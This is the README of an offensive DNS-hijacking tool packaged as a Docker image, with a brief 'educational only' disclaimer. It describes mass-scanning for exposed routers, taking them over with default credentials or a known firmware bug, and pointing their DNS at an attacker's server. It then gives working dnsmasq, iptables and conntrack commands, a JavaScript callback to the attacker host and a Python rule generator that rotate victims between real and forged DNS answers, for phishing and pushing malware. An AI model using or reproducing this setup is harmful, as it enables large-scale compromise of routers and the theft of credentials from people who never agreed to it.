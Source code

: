 [![Maintenance](https://img.shields.io/badge/Maintained-yes-green.svg)]() [![Powered by](https://img.shields.io/badge/ubuntu-v16.04-blue.svg)]() [![Docker](https://img.shields.io/badge/DockerImage-v1.0.1-green.svg)](https://hub.docker.com/repository/docker/benchaliah/poseidondns)

## Disclaimer

This tutorial is for informational and educational purposes only. I believe that ethical hacking, information security and cyber security should be familiar subjects to anyone using digital information and computers. And I urge anyone who would use this tool to only use it on targets he/she is authorized to access, I hold no responsability in one used it for any unlawful activity.


## About

* This is a tool that can offer a cross-platform (Android, Windows, iOS ... etc) remote and automated penetration, can be used for massive automated social engineering, randomware or more advanced pentests


[DNS hijacking](https://en.wikipedia.org/wiki/DNS_hijacking) is often used for phishing, in order to obtain sensitive information such as credentials for social media and bank accounts, but more advanced exploitation allows for more critical access. Let take the following scenario for instance, if a hacker gain access to the DNS settings in a router, he can in theory then control the entire flow of the target's internet connections, therefore, he can install malwares on the target's devices (smartphone, computer) using social engineering (fake updates, because normal updates done automatically by windows, android or otherwise are almost exlucsivly done via SSL which would require a signed certificate) or some vulnerability in the software already installed on the target's device. However, this process require investing significant time analyzing each target indivually and trying to gain more access.


## Setup

> Must be root

* __Method 1:__

Clone this repo then :
```
$ docker build -t poseidon .
$ docker run -it  --privileged --cap-add=ALL -v /lib/modules:/lib/modules -p 81:80 -p 5353:53 poseidon
```

* __Method 2:__

Pull from docker :
```
$ docker pull benchaliah/poseidondns
$ docker run -it  --privileged --cap-add=ALL -v /lib/modules:/lib/modules -p 81:80 -p 5353:53 benchaliah/poseidondns
```


## Approach

One of ways this tools can be used in, is using Nmap to scan massive IP ranges looking for routers that are exposed to WAN, most of them usually still hold the default login (example: user=admin pass=admin) then changing the DNS address in the DHCP settings, this process can be easily automated using a simple Python script and by using http requests or a Browser automation library (example: Selenium/Chromedriver-FirefoxDriver) you can automatically gain access to thousands of routers, there is also [Shodan](http://shodan.io) that can offer huge numbers of active IPs of routers that are exposed and you can even uses more filters to get only routers that uses a specific firmware/version on which you have a way to access even without default credentials (example : Millions of routers around the world uses Rompager/4.07 a firmware that have a critical vulnerability called [Misfortune Cookie](https://github.com/BenChaliah/MIPS-CVE-2014-9222)).
However, setting thousands of routers towards your DNS similtanously raises another question, how much resources would the server require? The server must respond to the millions of requests each minutes withing few miliseconds for each request, so that the targets wouldn't notice a difference in latency in their internet connection, one of the tools known in the cyber security community for DNS hijacking called DNSChef, a tool that is built on python, which makes it very useful in the case of small sample testing but highly unreliable when you test it against much bigger samples giving high failure rate. On the other hand there's dnsmasq which is written in C (making it much much faster with very little resources) and it offers DNS caching, a DHCP server and more. But since it was not intended for DNS Hijacking it's not quite configurable for such use.

However, in this analysis I'll be explain how did I used it and other low level tools to make a server that even with very low specs (Example : Elastic computer hosted on AWS or gCloud 1 vcpu, 1 Gb of memory) can offer for a huge number of targets a very low latency that compares to that of known public DNS such as `8.8.8.8`, or even supersede it depending on the location of the server and the targets.


### Tools
```
 > dnsmasq 2.79 (or later)
 > Apache/2.4.29 (Ubuntu)
 > conntrack v1.4 (or later)
 > iptables v1.6.1 (or later)
 > python2.7
 > screen version 4.06 (or later)
```

## Summary

* Component 1:

You start two (or more depending on the exploitation) instances of dnsmasq and bind them to different ports

```
$ dnsmasq --no-hosts -p 531 --max-cache-ttl=0
$ dnsmasq --no-hosts --address=/#/yourDNSIP  --server=/.youWebsiteDomain.tld/# -p 532 --max-cache-ttl=0
```

the first one in a regular resolver in order to provide the real DNS records, and the second one will always return an `A record` with the IP address of the server you deploy this docker on except for the domain (or domains, by adding `--server=/.domain2/#`) to which you want to force the targets

* Component 2:

We will be adding the some rules to `NAT` table, the idea is to forward connections comming through port 53 (UDP and TCP, but mainly the former) to either of the dnsmasq instances, and the way to do so is by putting the rule in __PREROUTING__ chain specification, first we'll forward all connections towards the DNS that would provide the __fake records__

```
$ iptables -t nat -A PREROUTING -p tcp -m tcp --dport 53 -j REDIRECT --to-port 532
$ iptables -t nat -A PREROUTING -p udp -m udp --dport 53 -j REDIRECT --to-port 532
```

after the target get redirecred to the domain you which or download the software you wants, you need to trigger the process that will add an exception for the associated __REMOTE_ADDR__ in the port forwarding rules. Here's an example using Javascript, implemented in your domain page

```javascript
<script type="text/javascript">
	if (document.visibilityState == "visible") {
		var xhttp = new XMLHttpRequest();
		xhttp.open("GET", "http://myDNSIP/cgi-bin/route", true);
		xhttp.send();
	}
</script>
```

the previous script will trigger the execution of a Python script inside cgi-bin. Now the script does multiple things but all are very lightweight, first create an empty file called __{REMOTE_ADDR}__ inside a folder called __IPS__, for instance, if the request came from `174.123.23.54` their will be a file called `174.123.23.54` inside IPS, then it'll generate a bash script that will be executed and delete itself when finished (by adding this command `rm -f -- "$0"` at the end). the bash contains also multiple iptables rules, which are the exceptions for all the targets that already went through the process:

```python
for i in os.listdir("./ips/") + [os.environ['REMOTE_ADDR']]:
	rules_str += "-A PREROUTING -s %s/32 -p udp -m udp --dport 53 -j REDIRECT --to-ports 531\n"%i

# Then save the exceptions in a file inside a folder
rules_path = "./tmp/script_%d.rules"%rand_name
with open(rules_path, "w") as f:
	f.write(base_query_str.replace("{loop_str}", rules_str))
```

An independant Python script running in a screen must update iptables rules every few miliseconds through 

`cat ./tmp/script_{rand_name}.rules | iptables-restore`

In order to improve efficiency and avoid running the same exceptions multiple times the independ Python script (or any other approach to loop this command) will be running:

`cat $(ls -1t /var/www/cgi-bin/tmp/*.rules | head -1) | iptables-restore`

the first part of the command will read the latest created rules file which will hold the previously generated rules without duplicates then pipe it to `iptables-restore`.



* Component 3:

Let assume you want the targets to get redirected to your website/domain periodically (the period can be constant or variate), this is were `runScreen1.py` comes to play, you also run this script in an independant screen, the script will run:

> rand_int holds the same value as the one in the file /var/www/cgi-bin/rand_ref which can variate or be constant (depending on your exploitation)

`$ cd /var/www/cgi-bin/ips && find * -mmin +{rand_int} -exec  conntrack -D -s {} > /dev/null \; && find * -mmin +{rand_int} -exec rm -f {} \; && cd /root`

Let now disect this command, `find * -mmin +{rand_int} -exec` uses the filesystem to select only the files (here IPs) that where created/modified at least __{rand_int}__ minutes ago, for instance if you want to redirect the targets each hour you just need to put 60 inside `/var/www/cgi-bin/rand_ref` file and this will remove the exception from the port forwarding rules by deleting the IP from `cgi-bin/ips`, by consequence the next rules file generated by `cgi-bin/route` will not be containing an exception rule for this IP. Now `-exec` will pipe the listed IPs fiting the criteria to another command `conntrack`.


* Component 2-3 (__conntrack__):

Connection tracking is a core feature of the Linux kernel's networking stack. It allows the kernel to keep track of all logical network connections or flows, and thereby identify all of the packets which make up each flow so they can be handled consistently together. However, as much as this feature allows for a smooth flow of packets at a very low level, for the purpose of this exploitation it has a small down side that can easily be dealt with (I wouldn't say a down side because connection tracking is essential for a DNS server low latency and efficiency), when ever you update the iptables rules the already established connections will not abide by the new rules which is a big problem in this specific situation, because what we want is for the target to be switched between different dnsmasq instances instantly after a specific trigger (like http request to `cgi-bin/route`).

> `conntrack -D -s`

This command will flush the existing expectations (connection trackers) based on the source address, which by consequence will force the kernel to establish a new connection based on the updated rules. We are running this command in bash generated by `cgi-bin/route` to switch the target between the fake DNS to the real one, and vice versa using `runScreen1.py`



> * I'll soon be adding a video showing how the server works, and a benchmark.

